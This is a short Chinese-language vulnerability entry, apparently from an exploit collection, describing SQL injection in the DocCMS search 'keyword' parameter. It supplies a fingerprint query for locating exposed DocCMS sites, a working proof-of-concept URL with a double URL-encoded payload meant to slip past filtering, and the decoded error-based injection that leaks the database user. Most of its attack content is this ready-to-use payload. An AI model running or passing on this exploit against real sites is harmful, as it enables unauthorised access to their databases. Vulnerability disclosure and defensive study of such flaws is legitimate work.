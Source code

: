 # DocCMS keyword SQL注入漏洞

## 漏洞描述

DocCMS keyword参数存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

<a-checkbox checked>DocCMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Doccms"</a-checkbox></br>

## 漏洞复现

CMS官网

![img](../../../.vuepress/public/img/image-20210702110657409.png)



验证POC



```plain
/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33
```



![img](../../../.vuepress/public/img/image-20210702110838286.png)



其中payload为下列语句的二次Url编码

```plain
' and (extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```